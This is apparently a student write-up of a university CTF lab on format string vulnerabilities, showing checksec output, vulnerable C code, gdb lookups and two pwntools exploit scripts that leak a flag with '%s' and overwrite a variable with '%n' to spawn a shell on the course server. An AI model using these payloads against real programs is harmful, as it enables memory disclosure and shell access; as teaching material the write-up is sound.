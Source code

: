 # Week 7: CTF

## Goal

> Explore format string vulnerabilities.

### Challenge 1

> First we started by running checksec in our program to see it´s protections.

```bash
/home/seed/Documents/CTF/semana7/desafio1/program'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

> We noticed that there is no PIE (which provides randomization of addresses) so we are able to perform a string format exploit if we have a vulnerability in the program.

```c
    load_flag();
   
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer); //this line has the vulnerability
```

> The vulnerability results from the printf not specifying the format string, therefore it will accept any content. Because we control the buffer variable, we can control this format string to perform an exploit.
>
> Since there is no PIE we can discover the position in memory of the flag buffer because it will not change in different runs. To discover this position we used gdb:

```bash
gdb-peda$ p &flag
$1 = (char (*)[40]) 0x804c060 <flag>
```

> Now we need to discover, like in the logbooks, the offset between the format string pointer and the buffer location in memory. To discover this offset we injected in the beginning of the payload a number followed by multiple "%x", then we expected to find this number in the result so that we know that we have enough "%x" to reach the buffer position.  
>
> In this case, contrarily to the seed labs, it prints the number immediately which means that the buffer is stored right after the pointer to the format string.
>
> This is a simple read problem because the offset is 0, so we just need to "%s" at the right position of the memory:

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08%s\n")
p.interactive()
```

### Challenge 2

> First we started by running checksec in our program to see it´s protections.

```bash
/home/seed/Documents/CTF/semana7/desafio2/program'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

> This program has the same restrictions of the first challenge so a format string exploit is still possible. However as we can see by the code the flag is not loaded into memory so we need another method to get the flag value.

```c
#include <stdio.h>
#include <stdlib.h>

int key = 0;

int main() {
   
    char buffer[32];

    printf("There is nothing to see here...");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this:");
    printf(buffer); //this line still has the vulnerability
    fflush(stdout);

    if(key == 0xbeef) {
        printf("Backdoor activated\n");
        fflush(stdout);
        system("/bin/bash");    
    }
        
    return 0;
}
```

> The vulnerability is the same as in challenge 1 : a printf without a format string specified whose arguments are directly controlled by the user input who can then use it to perform an exploit.
>
> We will want to have the key variable equal to 0xbeef so we can enter the if statement and a shell be launched. After that we can use the shell to access the flag.txt file.
> Since we wanted to change the key variable we used, like in challenge 1, gdb to find it's position in memory.

```bash
gdb-peda$ p &key
$1 = (int *) 0x804c034 <key>
```

> This means the key variable is in address 0x804c034 and to change it's value we need to execute a "%n" format string exploit.
> Just like in challenge 1 , we discovered the offset between the format string pointer and the key variable with "%x" and conclude the same, the offset was 0.
>
> To change the key variable value we need to user "%n" because it writes in the memory address passed the number of characters we have written so far in our string.
> Since 0xbeef is equal to 48879 , to modify the value of the key to this we need to use %n specifier and inject previously 48879 chars in the payload.
> The problem is that our buffer is only 32 bits so wee nee to find a solution.
>
> The solution was found while browsing the web and discovering that we can use this way of specifying "%n" as "amount of charsx%1$n" because this will not be taken into account for the 32 bytes. Also because writing the key memory address takes 4 bytes then we just need to insert more 48875 bytes to make the sum 48879(0xbeef).

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4005)

p.sendline(b"\x34\xc0\x04\x08%48875x%1$n")
p.interactive()
```

> After this, as expected, a shell was launched and to get the flag we just needed to run:

```bash
cat flag.txt
```

